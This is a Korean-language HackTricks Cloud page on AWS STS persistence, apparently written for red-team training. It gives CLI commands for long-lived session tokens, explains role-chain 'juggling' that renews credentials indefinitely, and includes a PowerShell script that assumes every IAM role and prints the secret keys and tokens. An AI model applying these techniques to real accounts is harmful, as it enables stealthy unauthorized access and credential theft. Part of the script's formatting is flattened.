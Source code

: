 # AWS - STS Persistence

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 제로부터 전문가까지 배우세요!</summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하고 싶다면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)를 **팔로우**하세요.
* **HackTricks** 및 **HackTricks Cloud** github 저장소에 PR을 제출하여 해킹 트릭을 공유하세요.

</details>

## STS

더 많은 정보를 원하시면 다음을 참조하세요:

{% content-ref url="../aws-services/aws-sts-enum.md" %}
[aws-sts-enum.md](../aws-services/aws-sts-enum.md)
{% endcontent-ref %}

### 역할 가정 토큰

임시 토큰은 나열할 수 없으므로 활성 임시 토큰을 유지하는 것은 지속성을 유지하는 방법입니다.

<pre class="language-bash"><code class="lang-bash">aws sts get-session-token --duration-seconds 129600

# MFA 사용
aws sts get-session-token \
--serial-number &#x3C;mfa-device-name> \
--token-code &#x3C;code-from-token>

# 하드웨어 장치 이름은 일반적으로 장치 뒷면의 번호로, 예를 들어 GAHT12345678입니다.
<strong># SMS 장치 이름은 AWS의 ARN으로, 예를 들어 arn:aws:iam::123456789012:sms-mfa/username입니다.
</strong># 가상 장치 이름은 AWS의 ARN으로, 예를 들어 arn:aws:iam::123456789012:mfa/username입니다.
</code></pre>

### 역할 체인 저글링

[**역할 체인은 인정받은 AWS 기능**](https://docs.aws.amazon.com/IAM/latest/UserGuide/id\_roles\_terms-and-concepts.html#Role%20chaining)으로, 종종 은밀한 지속성을 유지하는 데 사용됩니다. 이는 **역할을 가정한 다음 다른 역할을 가정**할 수 있는 능력을 포함하며, **순환적인 방식**으로 초기 역할로 되돌아갈 수 있습니다. 역할이 가정될 때마다 자격 증명의 만료 필드가 새로 고침됩니다. 따라서 두 역할이 서로 상호 가정하도록 구성된 경우, 이 설정은 자격 증명을 영원히 갱신할 수 있게 합니다.

이 [**도구**](https://github.com/hotnops/AWSRoleJuggler/)를 사용하여 역할 체인을 유지할 수 있습니다:

```bash
./aws_role_juggler.py -h
usage: aws_role_juggler.py [-h] [-r ROLE_LIST [ROLE_LIST ...]]

optional arguments:
-h, --help            show this help message and exit
-r ROLE_LIST [ROLE_LIST ...], --role-list ROLE_LIST [ROLE_LIST ...]
```

<details>

<summary>PowerShell에서 Role Juggling을 수행하는 코드</summary>

\`\`\`powershell # PowerShell script to check for role juggling possibilities using AWS CLI

## Check for AWS CLI installation

if (-not (Get-Command "aws" -ErrorAction SilentlyContinue)) { Write-Error "AWS CLI is not installed. Please install it and configure it with 'aws configure'." exit }

## Function to list IAM roles

function List-IAMRoles { aws iam list-roles --query "Roles\[\*].{RoleName:RoleName, Arn:Arn}" --output json }

## Initialize error count

$errorCount = 0

## List all roles

$roles = List-IAMRoles | ConvertFrom-Json

## Attempt to assume each role

foreach ($role in $roles) { $sessionName = "RoleJugglingTest-" + (Get-Date -Format FileDateTime) try { $credentials = aws sts assume-role --role-arn $role.Arn --role-session-name $sessionName --query "Credentials" --output json 2>$null | ConvertFrom-Json if ($credentials) { Write-Host "Successfully assumed role: $($role.RoleName)" Write-Host "Access Key: $($credentials.AccessKeyId)" Write-Host "Secret Access Key: $($credentials.SecretAccessKey)" Write-Host "Session Token: $($credentials.SessionToken)" Write-Host "Expiration: $($credentials.Expiration)"

## Set temporary credentials to assume the next role

$env:AWS\_ACCESS\_KEY\_ID = $credentials.AccessKeyId $env:AWS\_SECRET\_ACCESS\_KEY = $credentials.SecretAccessKey $env:AWS\_SESSION\_TOKEN = $credentials.SessionToken

## Try to assume another role using the temporary credentials

foreach ($nextRole in $roles) { if ($nextRole.Arn -ne $role.Arn) { $nextSessionName = "RoleJugglingTest-" + (Get-Date -Format FileDateTime) try { $nextCredentials = aws sts assume-role --role-arn $nextRole.Arn --role-session-name $nextSessionName --query "Credentials" --output json 2>$null | ConvertFrom-Json if ($nextCredentials) { Write-Host "Also successfully assumed role: $($nextRole.RoleName) from $($role.RoleName)" Write-Host "Access Key: $($nextCredentials.AccessKeyId)" Write-Host "Secret Access Key: $($nextCredentials.SecretAccessKey)" Write-Host "Session Token: $($nextCredentials.SessionToken)" Write-Host "Expiration: $($nextCredentials.Expiration)" } } catch { $errorCount++ } } }

## Reset environment variables

Remove-Item Env:\AWS\_ACCESS\_KEY\_ID Remove-Item Env:\AWS\_SECRET\_ACCESS\_KEY Remove-Item Env:\AWS\_SESSION\_TOKEN } else { $errorCount++ } } catch { $errorCount++ } }

## Output the number of errors if any

if ($errorCount -gt 0) { Write-Host "$errorCount error(s) occurred during role assumption attempts." } else { Write-Host "No errors occurred. All roles checked successfully." }

Write-Host "Role juggling check complete."

```
</details>

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>에서 **제로부터 영웅까지 AWS 해킹 배우기**!</summary>

다른 방법으로 HackTricks를 지원하는 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하고 싶다면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f)이나 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* **해킹 트릭을 공유하고 싶다면** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하세요.

</details>
```

</details>
